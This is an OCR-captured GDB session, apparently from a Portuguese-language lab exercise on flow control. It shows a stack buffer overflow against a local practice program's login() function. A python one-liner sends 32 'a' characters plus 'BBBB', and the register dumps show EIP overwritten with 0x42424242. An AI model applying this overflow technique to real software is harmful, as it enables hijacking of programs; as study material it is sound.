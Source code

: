 ebx            0x61616161	1633771873

esp            0xffffce64	0xffffce64

**ebp**            `0x42424242	0x42424242` # 4 bits a menos

esi            0xf7fb0000	-134545408

edi            0x0	0

eip            0x56555440	0x56555440 <__isoc99_scanf@plt> # 4 bits a mais

eflags         0x10282	[ SF IF RF ]

cs             0x23	35

ss             0x2b	43

ds             0x2b	43

es             0x2b	43

fs             0x0	0

gs             0x63	99


**(gdb)** run < <(python -c 'print "a"*32+ "BBBB"')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/jfc-me/Área de Trabalho/controle_fluxo_programas/controlarFLuxo < <(python -c 'print "a"*32+ "BBBB"')

Senha:
login incorreto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB

Breakpoint 1, 0x56555626 in login ()

**(gdb)** c

Continuando.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

**(gdb)** i r

eax            0x36	54

ecx            0x1	1

edx            0xf7fb1890	-134539120

ebx            0x61616161	1633771873

esp            0xffffce70	0xffffce70

**ebp**            `0x61616161	0x61616161`

esi            0xf7fb0000	-134545408

edi            0x0	0
